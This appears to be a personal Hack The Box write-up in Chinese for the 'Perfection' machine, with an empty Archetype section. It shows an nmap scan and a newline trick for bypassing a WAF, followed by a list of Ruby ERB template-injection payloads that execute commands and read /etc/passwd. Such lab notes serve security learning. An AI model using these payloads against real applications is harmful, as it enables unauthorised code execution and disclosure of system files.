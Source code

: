 # HTB

[toc]
## StartPoint
### Archetype
扫到了1433端口,使用
```bash

```

> -N : No password
  -L : This option allows you to look at what services are available on a server


## Easy

### Perfection
#### user
nmap:
```bash
Nmap scan report for 10.10.11.253
Host is up (6.5s latency).
Not shown: 65076 filtered tcp ports (no-response), 457 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240307143815.png)
webrick 1.7.0 ,一个ruby的web框架

输出成绩会回显,尝试ruby的`ssti`payload `<%= 7*7 %>`
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240307151037.png)

注意需要 `a%0A<%= 7*7 %>` 绕过waf检测


```bash
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

成功拿到shell
![image.png|475](https://gitee.com/leiye87/typora_picture/raw/master/20240307152200.png)
